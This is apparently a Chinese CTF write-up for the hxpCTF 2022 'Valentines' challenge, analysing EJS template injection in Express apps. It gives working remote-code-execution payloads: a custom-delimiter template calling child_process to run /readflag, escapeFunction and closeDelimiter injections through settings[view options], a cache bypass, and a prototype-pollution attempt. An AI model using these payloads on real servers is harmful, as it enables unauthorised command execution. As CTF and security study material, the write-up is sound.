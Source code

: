 # Valentines

```js
app.post('/template', function(req, res) {
  let tmpl = req.body.tmpl;
  let i = -1;
  while((i = tmpl.indexOf("<%", i+1)) >= 0) {
    if (tmpl.substring(i, i+11) !== "<%= name %>") {
      res.status(400).send({message:"Only '<%= name %>' is allowed."});
      return;
    }
  }
  let uuid;
  do {
    uuid = crypto.randomUUID();
  } while (fs.existsSync(`views/${uuid}.ejs`))

  try {
    fs.writeFileSync(`views/${uuid}.ejs`, tmpl);
  } catch(err) {
    res.status(500).send("Failed to write Valentine's card");
    return;
  }
  let name = req.body.name ?? '';
  return res.redirect(`/${uuid}?name=${name}`);
});

app.get('/:template', function(req, res) {
  let query = req.query;
  let template = req.params.template
  if (!/^[0-9A-F]{8}-[0-9A-F]{4}-[4][0-9A-F]{3}-[89AB][0-9A-F]{3}-[0-9A-F]{12}$/i.test(template)) {
    res.status(400).send("Not a valid card id")
    return;
  }
  if (!fs.existsSync(`views/${template}.ejs`)) {
    res.status(400).send('Valentine\'s card does not exist')
    return;
  }
  if (!query['name']) {
    query['name'] = ''
  }
  return res.render(template, query);
});
```

可以提交一个模板，模板限制了若以`<%`开头，内容只能是`<%= name %>`

题目中ejs的版本是`3.1.8`，而之前那个漏洞`settings[view options][outputFunctionName]`要求`3.1.6`及其以下的版本

问题在这个把整个query对象都传入进行渲染，这就使得用户可以自定义一些配置了。翻了一下ejs的官方文档，发现可以自定义模板的分隔符

传模板：`<?- global.process.mainModule.require('child_process').execSync('/readflag') ?>`

渲染：`name=123&delimiter=%3f`（`%3f`是`?`）

`hxp{W1ll_u_b3_my_V4l3nt1ne?}`

------

## New EXP

后面做`JustCTF2023`又遇到了ejs，找到一位师傅的wp，又回来看这题了，tql😭

👉[hxpCTF2022wp | Z3ratu1's blog](https://z3ratu1.github.io/hxpCTF2022wp.html)

下面我们再来一场ejs渲染之旅

```js
const express = require('express')
const app = express()
const port = 3000

app.set('view engine', 'ejs');

app.get('/page', (req,res) => {
    res.render('page', req.query);
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```

`app.render`一直跟进，直到进入`ejs/lib/ejs.js#renderFile`

![image-20230607211232390](../.gitbook/assets/image-20230607211232390.png)

这里的data就是传入`req.query`

接着将`viewOpts`浅拷贝到`opts`

进入`tryHandleCache(opts, data, cb);`，跟进`handleCache(options)`

![image-20230607211903101](../.gitbook/assets/image-20230607211903101.png)

![image-20230607213632542](../.gitbook/assets/image-20230607213632542.png)

这里new了一个`Template`（后面会用到），进入`compile`

![image-20230607212325578](../.gitbook/assets/image-20230607212325578.png)

这里对`opts`的各种属性进行了检测，通过了才能拼接到`prepended`

之前那个常见的payload，拼接到此为：

`var x;process.mainModule.require('child_process').execSync('calc');x = __append;`

实际上对3.1.6的修复漏掉了一个属性`escapeFn`，可能是修的时候看到这个没有前缀`opts.`吧

![image-20230607213215472](../.gitbook/assets/image-20230607213215472.png)

`var escapeFn = opts.escapeFunction;`，再往上看有个构造函数，挺多属性可以改的

![image-20230607213448353](../.gitbook/assets/image-20230607213448353.png)

![image-20230607213529671](../.gitbook/assets/image-20230607213529671.png)

上面`new Template`的时候就能传入`opts.escapeFunction`!

```js
?settings[view options][client]=1&settings[view options][escape]=process.mainModule.require('child_process').execSync('calc');
```

这个问题目前最新版本`3.1.9`还没修复！

有一个坑点就是cache问题，在生产模式下，或者开启了`app.enable('view cache');`，模板只会编译一次，也就是只能执行一次RCE。如何控制cache呢？

上面构造opts时，最后还会执行`utils.shallowCopyFromList`把data的键值拷贝到`opts`中

```js
if (data.settings['view cache']) {
    opts.cache = true;
}
viewOpts = data.settings['view options'];
if (viewOpts) {
    utils.shallowCopy(opts, viewOpts);
}
// ...
utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA_EXPRESS);
```

![image-20230607231950003](../.gitbook/assets/image-20230607231950003.png)

`handleCache`首先判断是否有缓存，有则先从`exports.cache`中找

![image-20230607232114664](../.gitbook/assets/image-20230607232114664.png)

找不到的话，后面`compile`也会把结果存入`exports.cache`

注意这里添加`cache=false`会被处理为字符串，而不是布尔值，因此`cache`字段放空即可

```js
?settingsview options=1&settingsview options=process.mainModule.require('child_process').execSync('calc');&cache=
```

这时候尝试每次指定不同的命令，成功执行不同的命令。

## ejs文件可控

👉[EJS, Server side template injection ejs@3.1.9 Latest · Issue #720 · mde/ejs (github.com)](https://github.com/mde/ejs/issues/720)

index.js

```js
const express = require('express')
const app = express()
const port = 3000

app.set('view engine', 'ejs');

app.get('/page', (req,res) => {
    res.render('page', req.query);
})

app.listen(port, () => {
  console.log("Example app listening on port ${port}")
})
```

page.ejs

```ejs
%%1");process.mainModule.require('child_process').execSync('calc');//
```

poc

```js
http://127.0.0.1:3000/page?settings[view%20options][closeDelimiter]=1")%3bprocess.mainModule.require('child_process').execSync('calc')%3b//
```

![image-20230608091417684](../.gitbook/assets/image-20230608091417684.png)

`delimiter`为`%`，ejs中要存在可利用的`closeDelimiter`

要放在其他题目感觉挺鸡肋的。。。都能直接写`ejs`哪还要这么绕。

但这题限制了`<%`开头，内容只能是`<%= name %>`

泰裤辣！！！

## 渲染参数限制

上面漏洞产生的直接原因是完全信赖用户的输入

`res.render(template, query)`把`query`一股脑放进去渲染

但若这里改成`res.render(template, {name: query['name']})`了呢

要想利用还得改动一下express版本，req.query可以造成原型链污染

> 震惊，这里是从justCTF2023那学到的
>
> express版本: 4.17.2 （valentines这题的版本是4.18.2，打不出来）
>
> 改一下package.json的dependencies
>
> "dependencies": {
>
>   "ejs": "3.1.8",
>
>   "express": "4.17.2"
>
>  }
>
> 执行npm install即可
>
> npm ls express 查看下载的版本

```js
name[__proto__][__proto__][settings][view%20options][client]=1&name[__proto__][__proto__][settings][view%20options][escape]=process.mainModule.require('child_process').execSync('calc');&name[__proto__][__proto__][cache]=
```

污染不了。。。（justCTF后面是通过idx赋值去污染的）

打不动了，还是太菜了呜呜呜



